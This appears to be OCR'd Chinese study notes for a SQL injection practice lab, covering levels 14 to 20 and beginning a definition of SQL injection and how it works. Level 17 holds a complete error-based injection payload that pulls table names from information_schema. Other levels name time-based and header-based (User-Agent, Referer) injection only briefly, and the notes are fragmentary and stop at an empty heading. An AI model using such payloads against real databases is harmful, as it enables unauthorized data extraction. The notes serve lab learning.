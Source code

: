

第14关

报错语句

密码框延时注入



第15关

延时注入



第16关

延时注入



第17关

报错注入

123123' WHERE username='Dhakkan' and (select 1 from (select count(*),concat((select substr(group_concat(table_name),1,10) from information_schema.tables where table_schema='security'),floor(rand(0)*2))x from information_schema.tables group by x)a)#



第18关

利用modheader插件

User-Agent：



第19关

利用modheader插件

Referer：

第20关





# 什么是sqli？

SQLi（SQL injection），SQL注入。

# sqli原理

由于后端代码对于前端输入的识别和处理的不严谨，导致攻击者从前端提交的sql语句片段被拼接
到后端数据库查询语句中，执行预期外的SQL查询。

# sqli危害？

